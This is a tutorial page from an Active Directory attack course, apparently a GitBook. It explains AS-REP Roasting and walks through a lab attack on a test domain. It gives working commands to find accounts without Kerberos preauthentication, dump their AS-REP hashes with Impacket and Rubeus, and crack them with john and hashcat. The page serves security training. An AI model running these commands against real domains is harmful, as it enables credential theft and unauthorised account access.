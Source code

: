# 7.3 - AS-REP Roasting

### AS-REP Roasting

AS-REP Roasting exploits accounts for which **Kerberos preauthentication is disabled**. In a typical Kerberos authentication process, the client must send a timestamp encrypted with its password-derived key. This serves as proof that the authentication request is not being replayed.

However, if preauthentication is **disabled**, the client does not need to send this encrypted timestamp. As a result, an attacker can request a **Ticket Granting Ticket (TGT)** for the target user and receive an AS-REP message encrypted with the user’s password hash.

#### AS-REP Process

```
1) AS-REQ (Client -> KDC/AS)
   - Timestamp 🔑 Encrypted with Client key (only if preauthentication is enabled)

2) AS-REP (KDC/AS -> Client)
   - TGT 🔑 Encrypted with KDC key
   - TGS Session Key 🔑 Encrypted with Client key
```

In this case we can jump the first step because the preauth is disabled. Once an attacker captures the **AS-REP**, they can attempt to crack the user's password offline.

### Example: Exploiting AS-REP Roasting

**Step 1: Create a User**

```powershell
New-ADUser -Name "asrep" -SamAccountName "asrep" -UserPrincipalName "asrep@dev-angelist.lab" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Disable Preauthentication**

```
Win + R -> dsa.msc
User -> Properties -> Account -> Account Options -> Do not require Kerberos preauthentication
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or via PowerShell and check if the target accounts that have Kerberos pre-authentication disabled:

```powershell
Get-ADUser -Identity "asrep" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
#PowerView
Get-DomainUser -PreauthNotRequired -Verbose
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Perform AS-REP Roasting using Impacket**

<pre class="language-bash"><code class="lang-bash"><strong>#On attacker machine create a dedicated python environment (optional)
</strong>python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Perform AS-REP Roasting attack using the Impacket's module: GetNPUsers.py
GetNPUsers.py dev-angelist.lab/asrep -dc-ip corp-dc -no-pass | grep '\$krb5asrep\$' > as-rep.txt
#Or using Rubeus
Rubeus.exe asreproast /user:user1 /outfile:C:\AD\Tools\asrephashes.txt
</code></pre>

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4: Crack the Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./as-rep.txt
hashcat -m 18200 ./as-rep.txt /home/kali/Documents/password.txt
#john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\asrephashes.txt
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)

### Labs

* [Learning Object 15 lab](../lab/15-lo1-5.md)
